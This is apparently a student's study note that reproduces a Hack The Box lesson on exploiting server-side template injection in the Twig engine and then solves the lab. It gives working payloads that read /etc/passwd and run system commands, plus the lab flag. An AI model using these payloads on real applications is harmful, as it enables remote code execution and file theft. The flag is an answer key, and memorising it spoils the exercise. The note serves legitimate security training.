 ```yaml
---
sticker: lucide//book-template
---
```


# Exploiting SSTI - Twig

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

***

### Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

***

### Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

***

### Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

***

### Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

## Question

***

![](images/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](images/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141817.png)

Flag is:

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
